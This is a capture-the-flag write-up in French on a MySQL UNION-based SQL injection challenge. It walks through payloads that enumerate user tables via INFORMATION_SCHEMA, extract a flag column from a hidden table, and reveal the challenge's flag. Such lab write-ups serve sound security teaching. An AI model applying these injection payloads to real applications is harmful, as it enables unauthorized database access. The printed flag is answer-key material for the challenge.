 # Writeup - Injection SQL #1: Va me falloir un SCHEMA

Comme pour le challenge précédent, on peut voir la requête utilisée:

```sql
SELECT * FROM challenge1 WHERE id='NOTRE_INPUT';
```

En essayant la même passe-passe que pour le défi précédent, on obtient bel et bien le contenu complet de la table `challenge1`, mais celle-ci ne contient pas de flag.

La description du challenge parle d'`UNION` et de `INFORMATION_SCHEMA`. Cette dernière contient les métadonnées de la BD, incluant le nom des tables et de leurs colonne. En lisant celle-ci, on peut tenter de voir si il existe une autre table nous semble intéressante.

```sql
 -- Notre entrée
' UNION SELECT 1,table_name,column_name,2 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema NOT IN ('information_schema', 'mysql', 'performance_schema') --

 -- Requête complète
SELECT * FROM challenge1 WHERE id='' UNION SELECT 1,table_name,column_name,2 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema NOT IN ('information_schema', 'mysql', 'performance_schema') -- ';
```

Exclure les tables dont le schema est `information_schema`, `mysql` ou `performance_schema` permet de voir seulement les tables crées par un utilisateur. Ceci n'est pas nécessaire, mais réduit grandement la taille des résultats en enlevant des tables qui ne nous intéressent pas.

Cette requête nous permet de découvrir qu'il existe la table `secret_table_XaFqEhxVY3U` qui contient les colonnes id, filler, junk et flag. Cette dernière nous semble être la plus intéressante. On peut donc répéter la requête précédente en changeant le nom de la table et des colonnes:

```sql
 -- Notre entrée
' UNION SELECT 1,filler,junk,flag FROM secret_table_XaFqEhxVY3U --
 -- Requête complète
SELECT * FROM challenge1 WHERE id='' UNION SELECT 1,filler,junk,flag FROM secret_table_XaFqEhxVY3U -- ';
```

Et le flag nous apparait: **FLAG-And_in_the_db_UNION_them_l88VnAUrYEI**
